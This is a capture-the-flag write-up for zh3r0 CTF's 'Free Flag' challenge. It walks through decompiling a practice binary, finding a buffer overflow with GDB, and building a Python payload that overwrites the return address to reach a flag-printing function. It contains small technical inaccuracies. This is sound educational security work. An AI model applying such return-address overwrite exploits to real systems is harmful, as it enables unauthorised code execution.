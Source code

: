 # Free Flag
**Category:** Binary Exploitation

**Points:** 124

**Description:**
> Welcome to zh3r0 ctf
> Here's your free flag
>
> pwn.zh3r0.ml 3456
>
> **Author:** hk
>
> **Given:** file: chall

## Writeup
To start off, let's run the program and see if we can work with some input:
```
nc pwn.zh3r0.ml 3456
Welcome to zh3r0 ctf.
Please provide us your name:
itsecgary

```

Looks like we have to enter a *"name"* and it will give us the flag somehow.
The next step here is to take a closer look at the binary file given to us. I will
use **Ghidra** (tool from the NSA) to decompile the program.

Opening up our function list, we see some potential functions to take a peek at:
- main
- here
- winwin

Let's see what they have:
**main:**
```
undefined8 main(EVP_PKEY_CTX *param_1) {
  init(param_1);
  here();
  return 0;
}
```

**here**
```
void here(void) {
  ssize_t sVar1;
  undefined local_28 [32];

  puts("Welcome to zh3r0 ctf.");
  puts("Please provide us your name: ");
  sVar1 = read(0,local_28,0x38);
  if (sVar1 == 0) {
    puts("Unlucky:-------- ): ");
                    /* WARNING: Subroutine does not return */
    exit(-1);
  }
  return;
}
```

**winwin**
```
void win_win(void) {
  system("cat flag.txt");
  return;
}
```

Looking at these functions we see that main() calls here() so our function here
really starts in here(). In here() we see that it takes in an input of 0x38 size,
which is a maximum of 54 characters accepted. After that, it doesn't really do
much besides exit the program. Hmmmm...

Our winwin() function looks like it gives us the flag, which sets out goal to be
able to run the code in that function. This is where we can use a **buffer
overflow**. Now, if you don't know what that is, watch the videos
linked down below to get a little understanding of what it is and how it works.

At this point, I used **GDB** to help me look at the stack during execution. For
the input, I will use a string of characters to help me determine the length I
need to set my payload and where I will need to inject the address to the winwin()
function.

**alphabet**
```
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
```

To start, I am going to set a breakpoint at the return value of main (practically
the end of the program). After this, I will define a hook to display the current
instruction that will be executed and examine 16 words from the stack.
```
(gdb) disassemble main
Dump of assembler code for function main:
   0x00000000004007d9 <+0>:     push   %rbp
   0x00000000004007da <+1>:     mov    %rsp,%rbp
   0x00000000004007dd <+4>:     mov    $0x0,%eax
   0x00000000004007e2 <+9>:     callq  0x40076e <init>
   0x00000000004007e7 <+14>:    mov    $0x0,%eax
   0x00000000004007ec <+19>:    callq  0x40071a <here>
   0x00000000004007f1 <+24>:    mov    $0x0,%eax
   0x00000000004007f6 <+29>:    pop    %rbp
   0x00000000004007f7 <+30>:    retq
End of assembler dump.

(gdb) break *0x00000000004007f7
Breakpoint 1 at 0x4007f7

(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/1i $rip
>x/8wx $rsp
>end
```  

Now I will run through the program with what we came up with above.
```
(gdb) r
Starting program: /home/gary/ctfs/zh3r0_CTF2020/binary_exploitation/free_flag/chall
Welcome to zh3r0 ctf.
Please provide us your name:
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

Program received signal SIGSEGV, Segmentation fault.
=> 0x40076d <here+83>:  retq
0x7ffffffee128: 0x4b4b4b4b      0x4c4c4c4c      0x4d4d4d4d      0x4e4e4e4e
0x7ffffffee138: 0xff5c70b3      0x00007fff      0xff7dd620      0x00007fff
0x000000000040076d in here ()
(gdb) OOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
Undefined command: "OOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ".  Try "help".
```

Hmm okay interesting. Looks like it only accepted up to our N's *(0x4e)*.
But the interesting thing here is that we can set the new return address to be
whatever we want where the K's *(0x4b)* are.

Let's change our input here a little bit. Next thing to do is grab the address
of the win_win() funciton where it begins.
```
(gdb) disassemble win_win
Dump of assembler code for function win_win:
   0x0000000000400707 <+0>:     push   %rbp
   0x0000000000400708 <+1>:     mov    %rsp,%rbp
   0x000000000040070b <+4>:     lea    0x172(%rip),%rdi        # 0x400884
   0x0000000000400712 <+11>:    callq  0x4005d0 <system@plt>
   0x0000000000400717 <+16>:    nop
   0x0000000000400718 <+17>:    pop    %rbp
   0x0000000000400719 <+18>:    retq
End of assembler dump.
```

I wrote a few lines of code to let us encode the function address into chars.
```
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ"
eip = struct.pack("I", 0x0040070b)
payload = struct.pack("I", 0x00000000)
print(padding+eip+payload)
```

**alphabet**
```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@
```

Let's give this a shot.
```
$ ./chall < alphabet
Welcome to zh3r0 ctf.
Please provide us your name:
cat: flag.txt: No such file or directory
```

NICE! Looks like it reaches the part of the code where it returns the flag.
Let's connect to the service and get this flag.
```
$ nc pwn.zh3r0.ml 3456 < alphabet
Welcome to zh3r0 ctf.
Please provide us your name:
zh3r0{welcome_to_zh3r0_ctf}
```

## Flag
zh3r0{welcome_to_zh3r0_ctf}

## Resources
Ghidra - https://ghidra-sre.org/

Videos
- https://www.youtube.com/watch?v=akCce7vSSfw
- https://www.youtube.com/watch?v=HSlhY4Uy8SA&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
- https://www.youtube.com/watch?v=1S0aBV-Waeo

These videos really helped me understand how buffer overflows occur and how to
exploit them :)
